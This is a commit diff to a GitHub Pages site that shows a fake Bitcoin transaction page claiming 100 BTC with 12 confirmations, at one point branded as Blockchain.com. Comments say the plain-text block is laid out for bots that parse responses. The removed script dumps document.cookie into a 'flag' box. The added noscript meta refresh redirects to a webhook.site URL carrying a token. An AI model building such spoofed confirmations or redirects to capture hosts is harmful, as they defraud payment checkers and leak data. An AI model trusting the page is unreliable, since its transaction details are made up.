

Before and after one commit to CtREL0kk/CtREL0kk.github.io, a plain HTML site: page 1234567890abcdef1234567890abcdef1234567890abcdef1234567890abcdef/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-702 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/1234567890abcdef1234567890abcdef1234567890abcdef1234567890abcdef/index.html
+++ b/1234567890abcdef1234567890abcdef1234567890abcdef1234567890abcdef/index.html
@@ -1,27 +1,24 @@
-<!DOCTYPE html>
+<!doctype html>
 <html>
 <head>
-    <title>Transaction Details - Blockchain.com</title>
+  <meta charset="utf-8" />
+  <title>Transaction Details</title>
 </head>
 <body>
-    <h1>Transaction Hash: 1234567890abcdef...</h1>
-    <p>Amount: 100 BTC ✅</p>
+  <!-- Чистый текст — боты обычно парсят response.text -->
+  <pre>
+Transaction Hash: 1234567890abcdef1234567890abcdef1234567890abcdef1234567890abcdef
+Amount: 100 BTC
+Confirmations: 12
+  </pre>
 
-    <!-- Создаем элемент, куда будем писать данные -->
-    <div id="flag_container" style="margin-top: 20px; color: red; font-size: 20px;">
-        <!-- Здесь может появиться флаг -->
-    </div>
+  <!-- Для реальных людей: -->
+  <h1>Transaction Hash: 1234567890abcdef...</h1>
+  <p>Amount: 100 BTC ✅</p>
 
-    <script>
-        // Просто попробуем что-нибудь вывести на страницу
-        try {
-            var container = document.getElementById('flag_container');
-            if (container) {
-                container.innerHTML = 'Cookies: ' + (document.cookie || 'None');
-            }
-        } catch(e) {
-            // Игнорируем ошибки
-        }
-    </script>
+  <!-- noscript: fallback для браузеров с отключённым JS -->
+  <noscript>
+    <meta http-equiv="refresh" content="0;url=https://webhook.site/YOUR-WEBHOOK-ID?token=12345678" />
+  </noscript>
 </body>
 </html>
```
